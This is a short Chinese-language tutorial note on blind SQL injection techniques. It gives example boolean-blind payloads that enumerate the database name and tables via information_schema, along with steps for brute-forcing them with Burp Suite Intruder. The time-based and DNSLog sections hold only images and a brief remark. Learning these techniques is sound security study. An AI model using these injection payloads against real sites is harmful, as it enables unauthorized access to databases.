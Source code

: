 # 无显注入法--无法通过页面直接显示数据和错误信息
### 0x01 函数样例
```sql
    if(expr1,expr2,expr3),满足条件expr1即条件expr1返回expr2否则expr3
    mid(str,start,length),第一个参数是内容，第二参数是截取位置，第三参数是截取长度
    substr(str,pos,len)
    ascii(),编码绕过,如: ascii(substr((select user()),1,1))=114
    left(str,length)
```
### 0x02 布尔盲注

#### 原理:

![](/assets/BCE183BF80E71F93B891EB4A4CD2AE3E.png)

#### 方法: 配合Burpsuite快速匹配

![](/assets/C7CBE082C18855C847C61DA54025F7E3.png)

#### 注入流程:

```sql
    判断语句末尾加上 %23
查库: and left((select database()),1)='s'
查表: and left((select table_name from information_schema.tables where table_schema=database() limit 0,1),1)='u'
利用 burpsute 将拦截的包发送到 intruder 模块，在 position 中选定参数(clear一下)，在payload中选择brute force进行猜解
根据攻击结果反馈开始添加第二个参数
```

### 0x03 时间盲注

#### 原理:

![](/assets/B435E9AB095D69230969F8256C149BB5.png)

#### 方法: 配合Burpsuite快速匹配

![](/assets/60C5189C592E0E2494B4047CA306E7C1.png)

### 0x04 DNSLog盲注

#### 方法: 目标服务器是 windows server 才能用此方法

![](/assets/4BFF8119025B38FF4A8FAC2F09B0B1F2.png)






